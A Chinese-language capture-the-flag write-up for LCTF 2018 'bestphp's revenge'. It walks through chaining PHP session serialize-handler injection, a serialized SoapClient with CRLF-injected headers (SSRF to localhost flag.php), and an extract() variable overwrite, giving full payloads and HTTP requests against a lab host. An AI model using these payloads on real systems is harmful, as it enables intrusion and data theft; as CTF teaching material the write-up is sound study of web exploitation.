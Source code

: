# LCTF 2018

## 0x01 bestphp's revenge

首页

```php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?> array(0) { }
```

有flag.php

```html
only localhost can get flag!session_start(); echo 'only localhost can get flag!'; $flag = 'LCTF{*************************}'; if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){ $_SESSION['flag'] = $flag; } only localhost can get flag!
```

显然我们要通过SSRF来拿到flag

这里我们构造soap序列化数据，ssrf+crlf带着可控的phpsessid访问flag.php

SOAP是啥

可以利用这个任意POST报文脚本做一个简单的示例

```php
<?php
$target = "http://127.0.0.1:5555";
$post_string = '';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=hgjf7894tb5m33n4c3ht1gu0n0'
    );
//这里还运用了CRLF注入攻击使得整个POST报文参数可控
$attack = new SoapClient(null,array('location' => $target,
                                    'user_agent'=>"eki\r\nContent-Type: application/x-www-form-urlencoded\r\n".join("\r\n",$headers)."\r\nContent-Length: ".(string)strlen($post_string)."\r\n\r\n".$post_string,
                                    'uri'      => "aaab"));
$payload = urlencode(serialize($attack));
echo $payload;
$c = unserialize(urldecode($payload));
$c->b();
```

接收端

```
root@EDI:~/codes/buuoj# nc -lvvp 5555
listening on [any] 5555 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 9491
POST / HTTP/1.1
Host: 127.0.0.1:5555
Connection: Keep-Alive
User-Agent: eki
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1
Cookie: PHPSESSID=hgjf7894tb5m33n4c3ht1gu0n0
Content-Length: 0


Content-Type: text/xml; charset=utf-8
SOAPAction: "aaab#b"
Content-Length: 365

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="aaab" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:b/></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

也就是说通过SOAP对象的反序列化我们能打到内网的/flag.php从而拿到flag

构造反序列对象，这里我们只需要

```php
<?php
$target = "http://127.0.0.1/flag.php";
$attack = new SoapClient(null,array('location' => $target,
                              'user_agent' => "Eki\r\nCookie: hgjf7894tb5m33n4c3ht1gu0n0\r\n",
                              'uri' => "123"));
$payload = urlencode(serialize($attack));
echo $payload;
//O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A41%3A%22Eki%0D%0ACookie%3A+hgjf7894tb5m33n4c3ht1gu0n0%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```

接下来是想办法让他反序列化执行。

这里利用session_start()的参数可控将序列化数据注入到sessionfile中

对于第一个``call_user_func()``

```php
...
call_user_func($_GET[f],$_POST);
...
if(isset($_GET[name])){
    $_SESSION[name] = $_GET[name];
}
...
```

构造出

```php
$_GET = array('f'=>'session_start','name'=>'|<serialize data>')
$_POST = array('serialize_handler'=>'php_serialize')
```

得到

```php
call_user_func('session_start',array('serialize_handler'=>'php_serialize'))
$_SESSION[name] = '|<serialize data>'
```

因为

> php_binary:存储方式是，键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
>
> php:存储方式是，键名+竖线+经过serialize()函数序列处理的值
>
> php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值 

而默认采用的``serialize_handler``是``php``

可以做一个小实验

```php
//test1.php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION['ryat'] = '|O:1:"A":1:{s:1:"a";s:2:"xx";}';
var_dump($_SESSION);
```

```php
//test2.php
<?php
#ini_set('session.serialize_handler', 'php_serialize');
session_start();
#$_SESSION['ryat'] = '|O:1:"A":1:{s:1:"a";s:2:"xx";}';
class A {
  public $a = 'aa';
  function __wakeup() {
    echo $this->a;
  }
}
var_dump($_SESSION);
```

访问test1.php 得到``array(1) { ["ryat"]=> string(30) "|O:1:"A":1:{s:1:"a";s:2:"xx";}" }``

访问test2.php 则得到了 ``xxarray(1) { ["a:1:{s:4:"ryat";s:30:""]=> object(A)#1 (1) { ["a"]=> string(2) "xx" } }``

可以看到在test2.php里被解析成了对象，并且成功调用了``__wakeup``，本题我们也是希望通过这种方式实现SSRF

发报文,注意这里要带``Content-Type: application/x-www-form-urlencoded``。不然会没法解析...

```
POST /?f=session_start&name=|O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A41%3A%22Eki%0D%0ACookie%3A+hgjf7894tb5m33n4c3ht1gu0n0%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D HTTP/1.1
Host: d46f35c6-a0fa-4140-bbb8-83cbde350129.node3.buuoj.cn
Content-Length: 31
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36
Cookie: PHPSESSID=lhav4dvjbfkr9aqc13ec8h0ig6
Origin: http://d46f35c6-a0fa-4140-bbb8-83cbde350129.node3.buuoj.cn
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://11dc9259-2de4-44c7-bc7d-c6abfe6f07e6.node3.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

serialize_handler=php_serialize
```

讲道理我们重新访问后带着注入的PHPSESSION，根据``var_dump($_SESSION);``应该就能拿到flag了

但是因为新版的php修复了soap反序列化的时候会发送网络请求的bug，所以还需要正向调用激活。

这里利用第二个call_user_func激活soap类

```php
$b = 'implode';
call_user_func($_GET[f],$_POST);
session_start();
...
$a = array(reset($_SESSION),'welcome_to_the_lctf2018');
call_user_func($b,$a);
```

可以看到经过上一步，`$_SESSION`里的数据是soap对象，再经过reset()弹出这个对象成为了`$a[0]`，那么我可以通过变量覆盖`$b`为`call_user_func`，调用`$a`中的这个对象，从而触发soap的网络请求。

```php
$_GET = array('f'=>'extract');
$_POST = array('b'=>'call_user_func');

->
call_user_func('extract','$POST');
call_user_func('call_user_func','<SOAPOBJECT>');
```

经过这一步，soap请求真正发了出去，phpsessid相应的session里被加入了flag

```
POST /?f=extract&name=SoapClient HTTP/1.1
Host: d46f35c6-a0fa-4140-bbb8-83cbde350129.node3.buuoj.cn
Content-Length: 16
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36
Origin: http://d46f35c6-a0fa-4140-bbb8-83cbde350129.node3.buuoj.cn
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://d46f35c6-a0fa-4140-bbb8-83cbde350129.node3.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=lhav4dvjbfkr9aqc13ec8h0ig6
Connection: close

b=call_user_func
```

如果之前上传成功的话，回传会显示SoapCilent

然后我们再GET一次首页，就会拿到存储flag的PHPSESSION

修改COOKIE即可拿到flag